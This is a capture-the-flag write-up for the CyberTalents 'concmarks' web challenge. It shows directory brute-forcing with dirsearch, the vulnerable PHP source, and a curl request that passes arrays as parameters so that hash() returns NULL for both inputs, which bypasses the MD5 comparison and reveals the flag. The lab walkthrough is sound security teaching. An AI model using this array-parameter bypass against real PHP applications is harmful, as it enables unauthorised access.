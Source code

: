 # Solve concmarks
#### https://cybertalents.com/challenges/web/concmarks

![alt text](image.png)

### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6mekgvd1gf9zrqj6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*

In the source code we found:
```html
<!--FILE=> sourceXXXX -->
<!--XXXX are numbers > 7000 & < 9000 -->
```

![alt text](image-1.png)

### Bruteforce attack to find the source file
```php
include('flag.php');	


if( @$_GET['n1'] && @$_GET['n2'] )
{
	$input1 = $_GET['n1'];
	$input2 = $_GET['n2'];
	if( $input1 !== $input2 && @hash("md5", $salt.$input1) === @hash("md5", $salt. $input2) )
	{
		echo $flag;

	} else {

		echo "Sorry this value not valid.";
	}
} else{
	exit();
}

```

### Code breakdown
`$input1 !== $input2`: Ensures that the values of n1 and n2 are not the same.
`@hash("md5", $salt.$input1) === @hash("md5", $salt. $input2)`: Checks if the MD5 hash of input1 concatenated with `$salt` is equal to the MD5 hash of input2 concatenated with `$salt`.
Note that `@` symbol **suppresses errors**. So if there's an error in the hash function, it might return NULL. If both hashes result in errors, their return values (`NULL`) would be **identical**.

### Try to pass the values to n1 & n2
`curl "http://wcamxwl32pue3e6mekgvd1gf9zrqj6zqdkgxu639-web.cybertalentslabs.com/?n1=test&n2=test2"`
Sorry this value not valid.

### Exploit
To exploit the PHP type juggling and error suppression, send arrays as `n1` and `n2` to trigger NULL hash values that satisfy the === comparison

`curl "http://wcamxwl32pue3e6mekgvd1gf9zrqj6zqdkgxu639-web.cybertalentslabs.com/?n1[]=a&n2[]=b"`

PHP treats `$salt.$input1` as `string + array` → invalid operation → `hash(...) === hash(...)` → Both return `NULL`, which are strictly equal `(NULL === NULL)`.

flag : FLAG{K0nC473n4710N_!5_50_C00l}

>Find More on ==> github.com/MedhatHassan 
